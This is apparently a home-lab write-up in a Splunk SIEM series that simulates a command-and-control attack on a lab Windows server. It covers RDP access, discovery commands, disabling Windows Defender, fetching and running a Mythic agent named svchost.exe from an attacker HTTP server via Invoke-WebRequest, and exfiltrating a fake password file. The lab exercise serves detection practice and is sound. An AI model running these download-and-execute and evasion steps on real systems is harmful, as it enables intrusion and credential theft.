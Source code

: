 ```yaml
---
title: 9.2.2 - C2 Attack
date: 2025-03-26 00:00:00 +/-TTTT
categories:
  - Splunk SIEM Implementation
tags:
  - splunk-siem-implementation
image: ../preview-image.png
media_subpath: /assets/img/Splunk-SIEM-Implementation/2025-03-26-9.2.2---C2-Attack/
---
```


## Logical Diagram and Attack Path Understanding

Here for an easy understanding our attack path I created a logical diagram which would allow us to have a smooth workflow towards out goal of successful data exfiltration from target machine.
  
Our attack path can be visualized as follows:  

![](2025-03-26-9.2.2---C2-Attack-1.png)

**Attack Path Explanation**  
Our attack path consists of six phases:  
  
1. **Initial Access**: We will use our Kali Linux machine to perform an RDP Brute Force attack towards our Windows Server. Our goal is to obtain a successful authentication towards our Windows Server.  
2. **Discovery**: Once we have gained initial access, we will perform some Discovery commands to gather information about the system. These commands include:  
	* `whoami`   
	* `ipconfig`  
	* `net user`  
	* `net group`  
3. **Defense Evasion**: With an RDP established session, we will disable Windows Defender on our Windows Server to evade detection.  
4. **Execution**: We will use PowerShell Invoke-WebRequest to download our Mythic agent on our Windows client. Once the Mythic agent is downloaded, we will execute it.  
5. **Command and Control**: With a successful established C2 session, we will be able to communicate with our Windows client and execute further commands.  
6. **Exfiltration**: Finally, we will use the existing C2 session to download a fake password file called `password.txt` from our Windows server. This will complete our attack path.  
  
**Assumptions**  
For the purpose of this challenge, we will assume that we have found a successful credential and have gained initial access to the target machine using an RDP brute force attack. (Done in RDP Simulation part of our project). Thus completing our Phase 1.

## Phase 2 - Discovery
  
Once an attacker gains access to a target system, they typically perform initial reconnaissance by running basic commands to gather insights about the environment. These commands help them understand the system’s configuration, user privileges, and network details. Examples include:  

| **Information**           | **Commands**       |
| ------------------------- | ------------------ | 
| **Current user**          | `whoami`           |
| **User permissions**      | `whoami /all`      |
| **IP Address**            | `ipconfig`         |
| **Users**                 | `net user`         |
| **Groups**                | `net localgroup`   |
| **User group membership** | `net user j.smith` |
  
These commands provide critical information that can be used to escalate privileges, move laterally, or plan further attacks.  
  
**Connecting to the Target Machine**
To perform these actions, connect to the target machine using **`xfreerdp3`** from your Kali Linux Attacker Machine, as done previously.  

```
xfreerdp3 /v:192.168.125.30 /port:3389 /u:"j.smith" /p:"1234" /cert:ignore -clipboard
```

![](2025-03-26-9.2.2---C2-Attack-2.png)
  
**Gathering Insights**
1. Open **Command Prompt** by pressing the **Windows key** and searching for it.  
2. Run the commands listed above one by one to collect system and user information.  
  
![](2025-03-26-9.2.2---C2-Attack-3.png)


## Phase 3 - Defense Evasion

To streamline the process for this project, we will conduct Defense Evasion by disabling Windows Defender using GNU. This approach is straightforward and practical, given that we already have an RDP connection established to the target machine.

**Disable Windows Defender via GUI**

1. Press the **Windows key** and search for **"Windows Security,"** then open the application.  
2. Navigate to **Virus & Threat Protection** in the menu.  
3. Under **Virus & Threat Protection Settings**, click on **Manage Settings**.  
4. Disable the following options:  
	- **Real-time scanning**  
	- **Cloud-delivered protection**  
	- **Automatic sample submission**  
	- **Tamper Protection**  

![](2025-03-26-9.2.2---C2-Attack-4.png)

For those looking to replicate this step in a real-world adversary scenario, you can achieve the same result by following this guide [here](https://powershellfaqs.com/disable-windows-defender-using-powershell/).

## Phase 4 - Execution
  
Head over to the directory where we downloaded the payload file. From here we can use an HTTP module that Python offers to server the file on port 9999 in the network using following command:

```
python3 -m http.server 9999
```

![](2025-03-26-9.2.2---C2-Attack-5.png)

After which we can head over to our target machine and open PowerShell. Here we will be using `iwr` an alias for the `Invoke-WebRequest` cmdlet, which will send a web request on given URL and if specified save output to a location given.

```
Invoke-WebRequest -Uri http://192.168.125.60:9999/svchost.exe -OutFile "C:\Users\Public\Downloads\svchost.exe"
```

Once the binary is downloaded on target we will run it using `Start-Process` cmdlet, which will start a process from given file path with `-NoNewWindow` to ensures the process runs in the background without opening a new window and `-PassThru` returns the process object.

```
Start-Process -FilePath "C:\Users\Public\Downloads\svchost.exe" -NoNewWindow -PassThru
```

![](2025-03-26-9.2.2---C2-Attack-6.png)

Once the command runs, we should in theory get a connection. So, If we were to type in `netstat -ano`, we would see "Established" along side our `svchost.exe` service name in list.  

![](2025-03-26-9.2.2---C2-Attack-7.png)

## Phase 5 - Command & Control

**Interacting with the Agent**  

In Mythic, Click on the "telephone" icon and we would see our active callback right in here, with the username, last check-in and process ID.  

To begin interacting with the agent, Click on the "keyboard" icon in the Interact column near interact ID, and then we can run some tasks in the bottom tab by giving command to run and wait for agent to give a callback and answer.  

![](2025-03-26-9.2.2---C2-Attack-8.png)

You can find the list of commands you can run from GitHub page for Apollo Agent or from Docs page in mythic itself.

## Phase 6 - Exfiltration

**Pre-requisite**

For this step we have a pre-requisite for a fake passwords.txt file on our target machine. So now we will create a fake passwords.txt file in order to demonstrate the phase 6 of exfiltration.

Head over to our Client machine (windows machine) and open "Command Prompt" and go to `C:\Users\Public\Documents\` a public directory where everyone can puts files on the computer.

Now create a "passwords.txt" file using notepad and put our j.smith user credentials in it.

![](2025-03-26-9.2.2---C2-Attack-9.png)

**Action On Objectives (Exfiltration)**

Now let's see if we can pull that off using our C2 session. For this we can use `download` command to download the file from target.

```
download C:\Users\Public\Documents\password.txt
```

Once the callback and action is complete which we can notice from the indication color line before the command which will turn from blue to green when command has finished running and output is returned.  

![](2025-03-26-9.2.2---C2-Attack-10.png)

Now to checkout the downloaded file click on the "paperclip" icon and we would see that the file is right here under downloads. From here you can open the file and see that the password is that is `1234`.

![](2025-03-26-9.2.2---C2-Attack-11.png)
